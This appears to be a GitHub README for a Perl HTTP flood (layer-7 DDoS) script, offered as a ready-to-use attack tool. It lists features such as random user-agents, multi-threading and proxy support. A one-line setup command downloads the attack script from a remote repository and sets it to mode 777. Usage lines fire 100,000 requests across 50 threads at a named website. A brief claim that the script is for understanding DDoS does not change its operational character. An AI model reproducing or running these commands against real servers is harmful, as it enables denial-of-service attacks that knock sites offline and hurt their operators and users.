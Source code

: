 
# Script for HTTP DDoS Attack ↓

## Features

- Send request with Random User-agent, Read user-agent from Local file.
- multi-threading
- Easy to Customize for beginners
- customizable Headers
- Define Number of request to be send to target
- Can modify Delay btween next request
- HTTP/HTTPS proxy can be used with modification*
- Language: Perl
## Installation

One Line Setup for Debian Based distro ~ Ubuntu, Debian

```bash
  apt update -y && apt install perl -y && apt install wget -y && wget https://raw.githubusercontent.com/cyberceros/ddos-dose/main/Layer7/HTTP-DDoS/HTTP-SIMPLE%20%7C%20ID%3A1A/http.pl && wget https://raw.githubusercontent.com/cyberceros/ddos-dose/main/Layer7/HTTP-DDoS/HTTP-SIMPLE%20%7C%20ID%3A1A/user.txt && chmod 777 *
```
## Usage

```
perl http.pl --url http://dultr.in/ --requests 100000 --threads 50
perl http.pl --url <target_url> --requests <no_of_req> --threads <no_of_threads>
```
```
- script read user agent from a file "user.txt" in same directory! (Line22) for change 
name or the directory of user-agent file!
- To modify header add, delete -> check (line 43)
- Delay between next request (line 56), bydefault 0.1s
```
```
- This script purpose to understand the HTTP ddos, to understand how traffic flows,
- Support only Attack to HTTP url,
```

## Screenshot for understanding the Script workflow !

![App Screenshot](https://cdn.discordapp.com/attachments/1096986540049182821/1097327395826040984/Attacker_Server.png)

## Targeted Server
![App Screenshot](https://cdn.discordapp.com/attachments/1096986540049182821/1097328145188794651/Attacker_Server_1.png)

## Authors

- [@cyberceros](https://www.github.com/cyberceros)
## Feedback

If you have any feedback, please reach out to us at n@dultr.in

